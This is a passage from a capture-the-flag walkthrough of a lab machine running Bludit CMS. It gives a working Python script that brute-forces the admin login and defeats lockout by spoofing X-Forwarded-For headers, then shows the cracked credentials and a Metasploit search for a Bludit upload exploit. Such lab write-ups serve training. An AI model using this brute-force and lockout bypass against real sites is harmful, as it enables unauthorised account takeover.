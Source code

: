 Now, let's craft a python script to perform bruteforceing.  
```
#!/usr/bin/python3
import requests, re, random

URL="http://10.10.10.191/admin/login"
PROXY={ 'http' : 'http://127.0.0.1:8080' }

# Used to retreive Cookie and tokenCSRF
def init_session():
    r = requests.get("http://10.10.10.191/admin/")
    csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-f0-9]*)"', r.text)
    csrf = csrf.group(1)
    cookie = r.cookies.get('BLUDIT-KEY')
    return csrf, cookie

def login(username, password):
    csrf, cookie = init_session()
    cookies = { 'BLUDIT-KEY': cookie }
    headers = { 'X-Forwarded-For' : f'{random.randrange(1,256)}.{random.randrange(1,256)}.{random.randrange(1,256)}.{random.randrange(1,256)}' }
    data = {
            'tokenCSRF': csrf,
            'username': username,
            'password': password,
            'save' : ''
    }
    r = requests.post(URL, headers=headers, cookies=cookies, data=data, proxies=PROXY, allow_redirects=False) #Allow redirects=False beacause we want to grab 301
    m = re.search(r'Username or password incorrect', r.text)
    if(m!=None):
        return False
    else:
        print("[+]"+username+":"+password)


wl = open('cewl.txt').readlines()
for line in wl:
    passwd = line.strip()
    login("fergus", passwd)

```
Now, if we let the script run we can have:  
```
[root@kali Blunder ]$ ./bludit.py
[+]fergus:RolandDeschain
```
Now we can use these credentials to access Bludit CMS.  
Now that we have access, coming back to our initial findings, we can use the one authenticate exploit to hopefully gain an initial foothold.  
```
msf6 > search bludit           

Matching Modules               
================                                                                                                      

   #  Name                                          Disclosure Date  Rank       Check  Description     
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


```